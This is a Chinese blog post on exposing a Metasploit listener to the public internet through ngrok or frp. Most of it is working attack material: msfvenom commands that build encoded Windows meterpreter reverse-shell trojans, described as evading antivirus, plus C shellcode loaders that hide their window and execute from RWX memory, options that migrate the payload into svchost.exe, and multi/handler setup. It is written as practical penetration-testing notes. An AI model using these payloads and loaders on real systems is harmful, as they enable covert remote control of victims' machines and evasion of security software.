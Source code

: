 ```yaml
---

title: MSF映射到公网的常见方法
top: true
cover: true
toc: true
mathjax: true
date: 2020-10-18 21:32:59
password: xxoo
summary:
tags: MSF
categories: MSF
---
```


---

### 0x01、前言

在渗透测试的环节中，MSF可以说是老生常谈的必会工具之一，有的时候内网的MSF并不能满足我们的使用需求，此时我们需要借助一些方法来进行端口转发，这里简单的介绍下如何将内网中的MSF转发到公网。



### 0x02、常见的两种转发方式

#### 方法①：使用Ngrok内网映射

首先我们需要有一个Ngrok官网的账户，官网地址：https://ngrok.com/，注册好后，首先下载一个Ngrok软件，下载地址：https://ngrok.com/download   

下载完成后，将软件复制到kali，解压后执行下图中的命令（ngrok官网会分配你个key）

![ngrok](MSF映射到公网的常见方法/ngrok.png)

![ngrok-kali](MSF映射到公网的常见方法/ngrok-kali.png)

接下来就很简单了，如果想将本地的http服务转发到公网，那么可以执行下列命令，然后会将http服务转发到公网的ngrok域名上

```
./ngrok http 80
```

![ngrok1](MSF映射到公网的常见方法/ngrok1.png)

![http](MSF映射到公网的常见方法/http.png)



ok，试完了http，我们来将tcp转发

```
./ngrok tcp 8888
```

![tcp](MSF映射到公网的常见方法/tcp.png)



 接下来，我们使用msf生成一个木马测试下

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 15 -f exe -o payload.exe
```

这里简单说下木马的参数：

- -p	 选择指定payload

- –e    选择制定编码器（不同编码器免杀效果也有不同，部分编码器应对火绒等杀软效果显著）

-  -i     编码次数

- -b     去处多余/坏字符，lhost是你申请的ngrok服务器地址 lport是自定义的远程端口

- -f 	 生成指定格式

- -a     选择架构平台，包括x86 | x64 | x86_64

- --platform          选择系统类型

  

当然也可以生成c的shellcode

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 15 -f c 
```

![shellcode](MSF映射到公网的常见方法/shellcode.png)



使用VC++6.0对下面的代码进行编译

```
#include <stdio.h>

#pragmacomment( linker, “/subsystem:”windows” /entry:”mainCRTStartup”")//运行时不显示窗口

unsignedchar buf[] =

“buf数组”;//将复制的数组粘贴到此处

main()

{
((void(*)(void))&buf)();

}
```



回归正题，使用msf监听模块监听

```
use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost 127.0.0.1

set lport 8888

exploit
```



meterpreter获取会话

![msf](MSF映射到公网的常见方法/msf.png)





方法②：使用frp+vps内网映射

首先需要去gihub下载frp :https://github.com/fatedier/frp/releases 这里我下载的linux 64的版本（因为服务器是linux），下载后分别放到本地kali和服务器上，解压后，然后分别去配置：



服务端配置frps.ini文件：

```
bind_addr = 0.0.0.0			 //填0.0.0.0即可意为本机ip
bind_port = 6531			//frp连接端口
dashboard_addr = 0.0.0.0     //填0.0.0.0即可意为本机ip
dashboard_port = 7500		//网页访问端口
dashboard_user = admin 		//用户名
dashboard_pwd = crlf 		//密码
token = crlf			   //frp连接口令
```

配置完成后，启动服务端

```
方法一：./frps - c frps.ini		//前台启动，可以看到详细的监听xinxi
方法二：nohup ./frps -c frps.ini > log.txt &		//后台启动
```

![frp](MSF映射到公网的常见方法/frp.png)

启动成功后可以通过网页端访问来查看

![http_s](MSF映射到公网的常见方法/http_s.png)





接下来配置客户端kali的frpc.ini

```
[common]
server_addr = 66.23.x.x      //vps的ip
server_port = 6531     		//连接frp的端口
token = crlf      			//连接frp口令
[msf]
type = tcp     			   //tcp协议
local_ip = 127.0.0.1       //填127.0.0.1即可
local_port = 6759         //转发到vps的点端口
remote_port = 6000        //访问端口
```



运行 ./frpc  -c frpc.ini

![frp_c](MSF映射到公网的常见方法/frp_c.png)

ok，接下来使用上面的msfvenom 生成测试木马

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 15 -f exe -o payload.exe
```



也可以使用shellcode

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows LHOST=远程服务端ip 
LPORT=远程服务端端口 -e x86/shikata_ga_nai -i 15 -b 'x00' PrependMigrate=true PrependMigrateProc=svchost.exe -f c > shellcode.c
```

- PrependMigrate=true、PrependMigrateProc=svchost.exe		使木马程序会迁移到svchost.exe进程

- 也可以使用windows/meterpreter/reverse_tcp_rc4这个payload，进行会话加密，增加免杀能力



使用vc++6.0创建32位的项目并编译

```
#include<stdio.h>
#include<windows.h>
#pragma comment(linker,"/subsystem:"windows" /entry:"mainCRTStartup"") //去除窗口
unsigned char shellcode[]=
"这里放生成的shellcode"
void main()
{
 LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
 memcpy(Memory, shellcode, sizeof(shellcode));
 ((void(*)())Memory)();
}
```



最后启动msf，等待上线

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 127.0.0.1  
set lport 6759     // 本机转发端口
```

![xx](MSF映射到公网的常见方法/xx.png)



### 0x03、结语：

写的很乱，用做笔记，希望能帮到有缘人吧，然后如有错误，欢迎斧正！



---

